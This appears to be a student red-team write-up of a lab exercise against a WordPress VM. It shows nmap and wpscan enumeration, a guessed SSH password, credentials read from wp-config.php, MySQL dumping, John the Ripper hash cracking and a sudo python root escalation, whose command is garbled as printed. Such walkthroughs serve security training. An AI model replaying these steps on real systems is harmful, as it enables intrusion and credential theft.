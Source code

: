 # Red Team: Summary of Operations

## Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

## Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

- **$ nmap -sV -A 192.168.1.100**

![NMAP scan](https://user-images.githubusercontent.com/88005785/156202449-00d3d6a3-2b1a-4f3a-b20a-a435e417e40d.png)

This scan identifies the services below as potential points of entry for Target 1:

- Port 22/TCP Open SSH
- Port 80/TCP Open HTTP
- Port 111/TCP Open rpcbind
- Port 139/TCP Open netbios-ssn
- Port 445/TCP Open netbios-ssn

The following vulnerabilities were identified on the Target 1 VM:

- User enumeration 
- Weak user passwords
- No use of salt on hashed passwords
- Misconfigured user privileges

## Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

- Flag1.txt: b9bbcb33e11b80be759c4e8448622482d

- Exploit Used
  - WPScan was used to enumerate users on the WordPress site
  - **$ wpscan --url http://192.168.1.110/Wordpress --enumerate u**

![Enumeration](https://user-images.githubusercontent.com/88005785/156202666-bda80739-4b50-4319-b4cf-50c57ec610d7.png)

  - After enumerating users, guessed user Michael’s password: michael
  - Connected via SSH using Michael’s credentials.
    - **$ ssh michael@192.168.1.110 **
  - Found first flag in /var/www/html/service.html directory and file by using following command:
    - **$ grep -ir flag1 /var/www **

![Flag1](https://user-images.githubusercontent.com/88005785/156202721-05f782ae-8cb3-4adb-9fc1-d21f3123007e.png)

- Flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c

- Exploit Used
  - Used similar commands to search directories and files in Michael’s machine.
  - Search through Michael’s directories uncovered the second flag:

![Flag2](https://user-images.githubusercontent.com/88005785/156202771-4f845dc0-dd5e-4ef6-8801-d5748c00f1e3.png)

- Flag3.txt: afc01ab56b50591e7dccf93122770cd2

- Exploit Used
  - Searching for file name, located the wp-config.php containing Michael’s mysql login credentials, including password: R@v3nSecurity

![SQL creds](https://user-images.githubusercontent.com/88005785/156202822-3cd279e0-70bb-44e9-843a-3f4a550d4ae5.png)

  - Logged into mysql with following command
    - **$ mysql -u root - p wordpress**
  - Ran the following sql commands to enumerate the tables:
    - **show databases;**
    - **use wordpress;**
    - **show tables;**

![mysql table](https://user-images.githubusercontent.com/88005785/156202856-bb8acbbf-d34a-4243-97b7-cb9faf1643eb.png)

    - **select * from wp_posts;**

![Flag3](https://user-images.githubusercontent.com/88005785/156202875-8cdb60ff-32a1-4184-a169-831b859b311f.png)

    - **select * from wp_users;**

![Hashed passwords](https://user-images.githubusercontent.com/88005785/156202901-b6ed3cce-eb4c-4b72-83b5-1daec9a720f2.png)

  - On the Kali machine, the hashed passwords (displayed above) were cracked using John the Ripper:
    - **$ john wp_hashes.txt**

![Steve password](https://user-images.githubusercontent.com/88005785/156202935-5679ae4c-b1a8-44df-b7f3-466fecc21307.png)
 
 - Steven’s password was obtained: pink84

- Flag4.txt: 715dea6c055b9fe3337544932f2941ce

- Exploit Used
  - Connected via SSH using Steven’s credentials
    - **$ ssh steven@192.168.1.110**


![Steve account](https://user-images.githubusercontent.com/88005785/156202989-707e992c-a101-4e93-a0bf-027324c44e54.png)

  - Attempted to switch to root by enumerating sudo privileges:
    - **$ sudo -l**

![Steve sudo](https://user-images.githubusercontent.com/88005785/156203026-4eecaabe-b699-4925-a3bc-5c5c54f20439.png)

  - Escalated to root by using the following python command:
    - **$ sudo python -c ‘import pty: pty.spawn(*/bin/sh”)’**

![Python command](https://user-images.githubusercontent.com/88005785/156203052-3e079f95-1c0b-4419-9a0e-6c9b64108019.png)

  - With access to root, found the 4th flag:

![Flag4](https://user-images.githubusercontent.com/88005785/156203081-e157be54-19c5-4ac8-86ee-95bb08eb2d1d.png)
